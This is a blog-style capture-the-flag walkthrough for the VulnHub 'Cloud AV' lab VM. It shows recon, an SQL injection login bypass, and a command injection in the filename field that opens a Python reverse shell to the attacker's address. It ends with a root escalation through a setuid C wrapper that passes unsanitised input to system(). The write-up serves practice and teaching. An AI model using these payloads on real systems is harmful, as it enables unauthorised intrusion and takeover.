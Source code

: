 ```yaml
---
layout: post
cover: False
cover: ''
title: "[VulnHub] - BoredHackerBlog: Cloud AV - Walkthrough"
date:   2020-04-03 03:18:00
tags: CTF Vulnhub Hacking ITsecurity
categories: 'ctf'
navigation: True
---
```

Hi, here is my solution to get root on `BoredHackerBlog: Cloud AV` VM, you can download it from [here](https://www.vulnhub.com/entry/boredhackerblog-cloud-av,453/).
`BoredHackerBlog: Cloud AV` is an fun and easy machine that required simple webapp skills in order to get in the server.


`cloudanti="10.10.10.131" `

### NMAP

`nmap` shows only two ports are open on `TCP` which are `22` and `8080` and here is the banner and `HTTP` methods for port `8080` : 
```bash
Supported Methods: HEAD OPTIONS GET
Werkzeug/0.14.1 Python/2.7.15rc1
```
### Port `8080`
```sh
yas3r@linux[~/CTF/CloudAVI]$ curl http://$cloudanti:8080                                                    
<html> 
<body>
<h1>Cloud Anti-Virus Scanner!</h1>
<h2>This is a beta Cloud Anti-Virus Scanner service.</h2>
<h3>Please enter your invite code to start testing</h3>
<form action="/login" method="POST">
  <input type="text" name="password" placeholder="Invite Code">
  <input type="submit" value="Log in">
</form>
</body>
</html>%                                                                                                                                                                                                             yas3r@linux[~/CTF/CloudAVI]$ 
```

### Initial DIR scan

```bash
yas3r@linux[~/CTF/CloudAVI]$ gobuster -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -u http://$cloudanti:8080 -fw      

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.131:8080/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2020/04/03 00:43:07 Starting gobuster
=====================================================
/console (Status: 200)
/scan (Status: 200)
=====================================================
2020/04/03 00:43:22 Finished
=====================================================

```

### SQL Injection
Trying couple of SQL injection payload to get the `errors` - and the code to bypass the invitation code is: `" or "a"="a`

```sh
POST /login HTTP/1.1
Host: 10.10.10.131:8080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:74.0) Gecko/20100101 Firefox/74.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 20
Origin: http://10.10.10.131:8080
Connection: close
Referer: http://10.10.10.131:8080/
Upgrade-Insecure-Requests: 1

password=" or "a"="a
```

Response:
```sh
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 74
Vary: Cookie
Set-Cookie: session=eyJsb2dnZWRfaW4iOnRydWV9.XobZzQ.Ii8girHtRHrlsDNy9esq7cdcbP0; HttpOnly; Path=/
Server: Werkzeug/0.14.1 Python/2.7.15+
Date: Fri, 03 Apr 2020 06:38:05 GMT

Redirecting to /scan. <meta http-equiv="refresh" content="0; url=/scan" />
```

### RCE and Reverseshell

On `scan` page, first tried couple of RCE injection payloads but the one that works is `|` by testing to ping my machine and check `tcpdump` on any icmp packets.
Here is the `RCE` that works for me using `python` reverse shell:

```sh
POST /output HTTP/1.1
Host: 10.10.10.131:8080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:74.0) Gecko/20100101 Firefox/74.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://10.10.10.131:8080
Connection: close
Referer: http://10.10.10.131:8080/scan
Cookie: session=eyJsb2dnZWRfaW4iOnRydWV9.XobZ2Q.YnahFyrao7H7zM0q_ZfMrFU7I-A
Upgrade-Insecure-Requests: 1

filename=netcat|python+-c+'import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(("10.10.10.1",80))%3bos.dup2(s.fileno(),0)%3b+os.dup2(s.fileno(),1)%3bos.dup2(s.fileno(),2)%3bimport+pty%3b+pty.spawn("/bin/bash")'
```

[Reference](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python)

On the other Terminal
```sh
yas3r@linux[~]$ sudo nc -l -p  80
scanner@cloudav:~/cloudav_app$ 
```

```sh
scanner@cloudav:~/cloudav_app$ export TERM=linux
scanner@cloudav:~/cloudav_app$ ls -l
ls -l
total 16
-rw-rw-r-- 1 scanner scanner 1550 Oct 24  2018 app.py
-rw-r--r-- 1 scanner scanner 2048 Oct 21  2018 database.sql
drwxrwxr-x 2 scanner scanner 4096 Oct 21  2018 samples
drwxrwxr-x 2 scanner scanner 4096 Oct 21  2018 templates
scanner@cloudav:~/cloudav_app$ 
```
Found a database file that been used by the webapp using `sqlite3` driver that has couple of invitation codes.

### `databases.sql`
```bash
root@cloudav:/home/scanner/cloudav_app# strings database.sql 
SQLite format 3
itablen<
]tablecodecode
CREATE TABLE `code` (
	`password`	TEXT
/mostsecurescanner
#cloudavtech
1mysecondinvitecode
+myinvitecode123
```

### PrivEsc 

Found a file that has special permissions: `update_cloudav` and by checking the source code of the application, we can see that
it run freshclam to update the database.

```bash
scanner@cloudav:~$ ls -l         
ls -l
total 20
drwxrwxr-x 4 scanner scanner 4096 Oct 24  2018 cloudav_app
-rwsr-xr-x 1 root    scanner 8576 Oct 24  2018 update_cloudav
-rw-rw-r-- 1 scanner scanner  393 Oct 24  2018 update_cloudav.c

loudav_app  update_cloudav  update_cloudav.c
scanner@cloudav:~$ cat *.c   
cat *.c
#include <stdio.h>

int main(int argc, char *argv[])
{
char *freshclam="/usr/bin/freshclam";

if (argc < 2){
printf("This tool lets you update antivirus rules\nPlease supply command line arguments for freshclam\n");
return 1;
}

char *command = malloc(strlen(freshclam) + strlen(argv[1]) + 2);
sprintf(command, "%s %s", freshclam, argv[1]);
setgid(0);
setuid(0);
system(command);
return 0;
}
```

### RCE as `root`
Getting root by injecting `OS command injection`.

```bash
scanner@cloudav:~$ ./update_cloudav
./update_cloudav
This tool lets you update antivirus rules
Please supply command line arguments for freshclam
scanner@cloudav:~$
scanner@cloudav:~$ ./update_cloudav "; /bin/bash"
./update_cloudav "; /bin/bash"
ERROR: /var/log/clamav/freshclam.log is locked by another process
ERROR: Problem with internal logger (UpdateLogFile = /var/log/clamav/freshclam.log).
ERROR: initialize: libfreshclam init failed.
ERROR: Initialization error!
root@cloudav:~#
```

Hope you like it.

@yaserfaraj

